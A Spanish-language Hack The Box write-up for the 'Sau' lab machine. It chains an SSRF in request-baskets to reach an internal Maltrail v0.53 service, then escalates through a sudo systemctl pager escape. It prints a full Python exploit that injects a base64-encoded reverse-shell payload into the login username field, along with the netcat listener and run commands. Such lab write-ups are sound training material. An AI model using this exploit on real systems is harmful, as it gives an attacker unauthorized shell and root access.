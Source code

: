 ```yaml
---
layout: single
title: Sau - Hack The Box
excerpt: "En esta máquina nos aprovecharemos de la vulnerabilidad del Mailtrail v0.53 para llevar a cabo un CSRF, en el cual aprovecharemos para poder ver qué servicio corren en puertos que externamente no tenemos acceso, una vez identificamos qué ahí allí nos aprovecharemos para explotar dicho servicio web que externamente no teníamos acceso & convertirlo en un RCE otorgándonos una Reverse Shell "
date: 2023-10-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-sau/sau_logo.png
  teaser_home_page: true
  icon: /assets/images/vulnhub.webp
categories:
  - hackthebox
tags:  
  - RCE
  - CSRF
  - abuso sudoers
  - CVE-2023–27163
---
```



# PortScan
```
 nmap -p- --min-rate 5000 -vvv -Pn -n -sS 10.10.11.224 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 16:48 AST
Initiating SYN Stealth Scan at 16:48
Scanning 10.10.11.224 [65535 ports]
Discovered open port 22/tcp on 10.10.11.224
Discovered open port 55555/tcp on 10.10.11.224
Completed SYN Stealth Scan at 16:48, 14.11s elapsed (65535 total ports)
Nmap scan report for 10.10.11.224
Host is up, received user-set (0.070s latency).
Scanned at 2023-10-28 16:48:01 AST for 14s
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    filtered http    no-response
8338/tcp  filtered unknown no-response
55555/tcp open     unknown syn-ack ttl 63
```

# Sitio Web

![](/assets/images/htb-writeup-sau/Pasted image 20231028164933.png)


Sí indagamos un poco en busca de vulnerabilidades, encontraremos qué esta versión de "**request-baskets**" es vulnerable a un (**CSRF**), [(CVE-2023–27163)](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7), de manera qué podríamos aprovecharnos de esta vulnerabilidad para descubrir qué hay en el ":80" qué nos apareció como "filtered"


![](/assets/images/htb-writeup-sau/Pasted image 20231028165410.png)


Debemos tener todas las check's seleccionados, y en la URL indicar el localhost y que apunte al **:80**, esto para qué la misma máquina host apunte a su puerto & pueda visualizar que servicio corre en este puerto, probablemente un HTTP, ya qué exteriormente a lo mejor por reglas de "firewall" no podamos visualizar.


![](/assets/images/htb-writeup-sau/Pasted image 20231028165642.png)


Podemos ver que en el **":80"** está corriendo un **Mailtrail** con versión **0.53**, sí indagamos en busca de vulnerabilidades para este este aplicativo encontraremos qué podemos llevar a cabo un **RCE**, como sé explica en [éste artículo](https://securitylit.medium.com/exploiting-maltrail-v0-53-unauthenticated-remote-code-execution-rce-66d0666c18c5), y sí indagamos más encontraremos exploit para aprovecharnos de esta vulnerabilidad para otorgarnos una Reverse Shell, un script montado en python, a continuación se dejará el script utilizado.
```python
```py
import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```


Antes de llevar a cabo el script, nos ponemos en escucha con "netcat".
```
nc -nlvp 443
```

Para posterior a esto ejecutar el script con los parámetros indicados.
```
python3 exploit.py 10.10.14.116 443 http://10.10.11.224:55555/733up1m
```

Esto puede llevar un poco de tiempo, pero al cabo de un rato nos otorgará una reverse shell.


![](/assets/images/htb-writeup-sau/Pasted image 20231028170555.png)


# Escalada de Privilegios

Sí nos fijamos en nuestro permisos sudoers con:
```
sudo -l
```


![](/assets/images/htb-writeup-sau/Pasted image 20231028170807.png)

Veremos qué podemos ejecutar el binario **"systemctl status trail.service"** como todos los usuarios y sin proporcionar contraseñas, por ende podemos aprovecharnos de esto para ejecutar con sudo este binario & como está configurado no nos pedirá la credenciales del usuario actual, por lo qué tan sólo debemos poner el "sudo" delante del binario, es decir esto:

```
sudo systemctl status trail.service
```

Nos abrirá el binario como **Root**, y para aprovecharnos de esto debemos hacer como cuando usamos **vim** que nos abrimos el apartado para guardar, quitar, etcera, es decir "q" o "w", pero en vez de esto llamaremos una **tty**, ya sea una bash, sh o cualquiera otra, pero para esto debemos poner un signo de admiración hacia abajo y luego llamar la consola, como veremos a contiuación

![](/assets/images/htb-writeup-sau/Pasted image 20231028171134.png)


Posterior a ello obtendremos la tty indicada pero como Root.


![](/assets/images/htb-writeup-sau/Pasted image 20231028171815.png)
